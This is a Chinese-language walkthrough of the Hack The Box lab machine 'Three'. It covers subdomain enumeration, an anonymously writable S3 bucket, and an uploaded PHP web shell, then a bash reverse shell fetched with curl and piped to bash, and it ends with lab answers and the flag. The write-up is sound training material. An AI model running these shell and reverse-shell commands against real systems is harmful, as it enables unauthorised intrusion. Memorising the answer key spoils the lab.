

# Three

## 前言

- 本期来到 TIER1 系列的第五个靶机，难度评级为 Very Easy！

在当前时代，各种规模的企业都在使用云。各大企业主要使用云进行数据备份、数据存储、数据的灾难恢复、邮箱、虚拟桌面、软件开发和测试等等。所以为了应对可能的攻击，对公司的云进行一个安全地配置是一件很重要的事情。

- Three 靶机包含了一个网站，并使用一个 AWS S3 **bucket** 作为它的云存储服务设备。然而这个 **bucket** 未进行安全配置，所以我们可以在该 bucket 上反弹 shell，从而读取 flag 通过本关。


## 枚举

首先我们扫描靶机上开放的端口：

```bash
sudo nmap -sV ip
```


扫描结果显示 TCP  的 22 和 80 端口是开放的。我们在浏览器访问一下靶机的 80 端口：


我们可以看到一个静态的 web 页面，其中有一个音乐会门票预订部分，然而点击没啥反应。

我们使用 [Wappalyzer](https://www.wappalyzer.com/apps/) 识别一下网站采用了什么技术：


识别结果告诉我们网站基于 PHP 语言开发！

在页面一番搜索，可以发现一个 Contact 功能，点击一下就来到了 Contact 页面：


从上图可以看到邮箱中的一个域名信息

```bash
thetoppers.htb
```

现在，在我们的 /etc/hosts 文件中增添配置，将以上域名和靶机的 IP 关联起来：

```bash
echo "10.129.227.248 theoppers.htb" | sudo tee -a /etc/hosts
```

这样，我们就可以通过浏览器直接访问该域名了。

> /etc/hosts 文件用于将主机名解析为 IP 地址。默认情况下，在 DNS 服务器进行域名解析前会查询该文件。
>
> 所以我们需要在该文件中为以上域名添加一个对应的 IP，这样我们的浏览器就会将该域名解析成我们添加的 IP 啦！


## 子域名枚举

一般来说，访问主域名未得到什么有效信息，这时候就应尝试看看子域名。不过在那之前我们首先需要找到这些子域名。

#### 子域名是什么？

子域名是被添加到网站域名开头的额外信息块，子域名允许网站根据特定的功能来分离和组织内容。

举个例子，若我们访问 hackthebox.com ，我们可以访问到网站的主页面部分。但是如果我们访问 ctf.hackthebox.com，我们就能访问到网站的 CTF 部分。在这种情况下，`ctf` 就是子域名，而 `hackthebox` 则是主域名，`com` 是顶级域名。尽管 URL 发生了一些轻微的变化，但是你仍在 HTB 的网站内，在 HTB 的域名下。

通常，不同的子域名会有不同的 IP 地址，当我们的系统查找子域名时，它会得到管理该子域名的服务器的 IP 地址。

不过有时一个服务器可能管理着多个子域名，这是通过基于主机的路由实现的（或者是虚拟主机路由），服务器会根据 HTTP 请求中的 Host 字段来确定让哪个应用程序处理该请求。

现在我们拥有 `thetoppers.htb` 域名，让我们枚举一下靶机的服务器上是否还有其他的子域名。有许多不同的子域名枚举工具，比如 `gobuster`、`wfuzz`、`feroxbuster` 等等，本篇 WP 使用 `gobuster` 以下命令进行子域名枚举。

```bash
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb

# kali 的话使用以下命令
gobuster vhost -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt  -u http://thetoppers.htb --append-domain # 好像找不到 s3 子域名
```

几个选项的含义如下：

- vhost：使用 VHOST 进行暴力破解
- -w：字典路径
- -u：指定 URL

> 注意：若使用 Gobuser 3.2.0 以上版本，还需要在命令后面加上 --append-domain 选项，这样才能进行子域名的枚举。具体没太看懂，似乎加了这个选项，才会把字典里面的元素添加到要枚举的域名前面。比如现在我们是 thetoppers.htb，加了选项才会把字典里面的 word 加在域名前面变成 word.thetoppers.htb

对于字典里面的每个单词，Gobuster 会发送具有如下 Host 头的请求：

```http
Host: [word].thetoppers.htb
```

命令运行后 Gobuster 会记录默认的响应，并显示任何返回不同内容的响应。


结果显示存在一个名为 `s3.thetoppers.htb` 的子域名，我们继续在 /etc/hosts 文件中把该子域名和靶机的 IP 关联起来：

```bash
echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```


之后使用浏览器访问 `s3.thetoppers.htb`

> 如果出现了代理 502 啥错误，可能是 hackthebox 服务器没启动好，建议重启啥的。我是第一次 502 了，后面重启解决问题！


只响应给我们一个 JSON 字符串

```
{"status": "running"}
```


## S3 bucket 是什么？

谷歌搜索一下上述回显的信息，关键字是：`s3 subdomain status running`。


谷歌告诉我们该响应信息意味着 `S3` 是一个基于云的对象存储服务，其允许我们在一个称为 buckets 的容器内存储东西。

AWS S3 buckets 有很多用途，比如数据备份和存储、软件交付、静态网站。存储在 Amazon S3 bucket 内的文件被称为 S3 对象。

我们可以利用 `awscli` 工具和 S3 bucket 进行交互。在 linux 中可以通过以下命令安装 awscli：

```bash
sudo apt install awscli
```

- aws 相关命令含义可以参看[此处](https://aws.amazon.com/cn/cli/)

如果安装出现下面这样的问题：


应该是相关依赖版本冲突，可以卸载掉出现的包然后再试着安装 aws：

```bash
sudo apt remove groff-base
sudo apt install awscli
```


安装完毕后通过以下命令配置 awscli：

```bash
aws configure
```


要求我们输入的配置项有 AWS 服务器的访问密钥 ID、访问密钥等等。

- 在这里我们使用任意值来配置任何字段，因为有时候 AWS 服务器可能被配置为不进行身份认证，这样不需要密钥也可以访问。


我们可以通过 `ls` 命令列出靶机服务器所持有的全部 S3 buckets：

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```


我们也可以使用 `ls` 命令列出指定 bucket 下的对象：


从上图可以看到该 bucket 有两个名为 index.php、.htaccess 的文件，还有一个 images 目录。这看起来像是网站的 web 根目录（在 80 端口），所以 apache 服务器可能使用了该 bucket 进行存储。

`awscli` 允许我们上传文件到远程的 bucket 上。我们已知网站基于 PHP 搭建，所以我们可以上传一个 PHP shell 到上述 bucket 上。由于该 bucket 用作网站根目录，所以文件实际上被上传到了网站根目录下，那么我们应该可以通过浏览器访问上传的文件，如果文件成功被 PHP 解析，那么我们就可以 RCE了。

我们使用以下命令构造一个接收 GET 参数的 PHP shell：

```php
<?php system($_GET["cmd"]);?> // 调用 system 函数执行系统命令
```

将上述命令写入文件：

```
echo '<?php system($_GET["cmd"]);?>' > shell.php
```

- 也可以直接上传一句话木马，下面官方的做法太麻烦了。

然后使用以下命令将文件上传到 thetoppers.htb 的 S3 bucket 上：

```php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```


试着在浏览器访问一下我们上传的 shell：

```php
http://thetoppers.htb/shell.php
```

然后传参 RCE 即可。

```http
http://thetoppers.htb/shell.php?cmd=id
```


上图回显了 id 命令执行的结果，我们已成功 RCE！现在尝试反弹 shell。

通过反弹 shell，我们可以让远程主机主动向我们本机 IP 的某端口发起连接。问题来了，我们本地的 IP 一般是无法被外网访问到的，不过好在我们可用 hackthebox 的 tun0 的 IP。（这应该是一个局域网内的网络连接）

使用以下命令查看本机 tun0 的 ip地址：

```bash
ifconfig
```


现在开始编写反弹 shell 脚本，让远程主机连接本机的 1337 端口：

```bash
#!/bin/bash
bash -i >& /dev/tcp/<IP>/1337 0>&1
```

~~将上述脚本保存在一个名为 `shell.sh` 的文件内然后上传至 bucket 即可。~~

然后在我们本地使用 ncat 监听 1337 端口：

```
nc -nlvp 1337
```


现在在本地的 8000 端口上利用 python 开启一个 web 服务器，注意要和 shell.sh 同目录：

```
python3 -m http.server 8000 # py2 自行搜索一下
```



现在我们跑到浏览器上让 bucket 执行 curl 命令请求我们的 shell.sh 文件并通过 sh 执行：

```
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash
```

之后我们就可以在本地收到反弹回来的 shell 了。


flag 在 /var/www 目录下：

```bash
cat /var/www/flag.txt
```

## 答案

1. 2
2. thetoppers.htb
3. /etc/hosts
4. s3.thetoppers.htb
5. amazon s3
6. awscli
7. aws configure
8. aws s3 ls
9. php
10. a980d99281a28d638ac68b9bf9453c2b 
